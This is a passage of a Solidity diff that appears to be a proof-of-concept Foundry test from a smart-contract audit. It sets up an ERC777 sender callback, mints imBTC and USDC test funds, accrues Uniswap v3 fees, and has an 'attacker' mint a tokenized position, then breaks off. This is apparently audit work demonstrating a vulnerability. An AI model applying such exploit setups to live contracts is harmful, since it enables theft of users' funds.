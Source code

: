 ```diff
+
+        // setup erc 777 callback
+        IERC1820Registry imbtcRegistry = IERC1820Registry(0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24);
+        // keccak256("ERC777TokensSender")
+        bytes32 TOKENS_SENDER_INTERFACE_HASH = 0x29ddb589b1fb5fc7cf394961c1adf5f8c6454761adf795e67fe149f658abe895;
+        imbtcRegistry.setInterfaceImplementer(address(this), TOKENS_SENDER_INTERFACE_HASH, address(this));
+
+        // add minter to imbtc to add test funds since deal() fails
+        vm.prank(0xb9E29984Fe50602E7A619662EBED4F90D93824C7);
+        IMBTC(imBTC).addMinter(address(this));
+
+        int24 strike = (currentTick / tickSpacing * tickSpacing) + 3 * tickSpacing;
+        int24 width = 2;
+        int24 lowTick = strike - tickSpacing;
+        int24 highTick = strike + tickSpacing;
+        uint256 shortTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, 0, 0, 0, 0, strike, width);
+        uint128 posSize = 103e8;
+
+        // initial setup. accure fees in tick range so that feeGrowth doesn't start from 0 as else there would be no effect if an attacker explicity makes feebase 0
+
+        IMBTC(imBTC).mint(Alice, type(uint128).max, "", "");
+        deal(usdc, Alice, type(uint128).max);
+
+        vm.startPrank(Alice);
+
+        address uniswapNFTManager = 0xC36442b4a4522E871399CD717aBDD847Ab11FE88;
+        IERC20Partial(imBTC).approve(uniswapNFTManager, type(uint256).max);
+        IERC20Partial(usdc).approve(uniswapNFTManager, type(uint256).max);
+        IERC20Partial(imBTC).approve(address(router), type(uint256).max);
+        IERC20Partial(usdc).approve(address(router), type(uint256).max);
+
+        // mint using nft manager and accrue fees
+        INonfungiblePositionManager(uniswapNFTManager).mint(
+            INonfungiblePositionManager.MintParams(
+                token0, token1, fee, lowTick, highTick, posSize, 0, 0, 0, Alice, block.timestamp
+            )
+        );
+        uint256 amountReceived = router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token1, token0, fee, Bob, block.timestamp, 200_000_0e6, 0, 0)
+        );
+        router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token0, token1, fee, Bob, block.timestamp, amountReceived, 0, 0)
+        );
+        vm.stopPrank();
+
+        IMBTC(imBTC).mint(address(this), type(uint128).max, "", "");
+        IERC20Partial(imBTC).approve(address(sfpm), type(uint256).max);
+        deal(usdc, address(this), type(uint128).max);
+        IERC20Partial(usdc).approve(address(sfpm), type(uint256).max);
+
+        // attacker mints token 1
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+
+        address anotherUser = address(0x12323184392234);
+
+        IMBTC(imBTC).mint(anotherUser, type(uint128).max, "", "");
```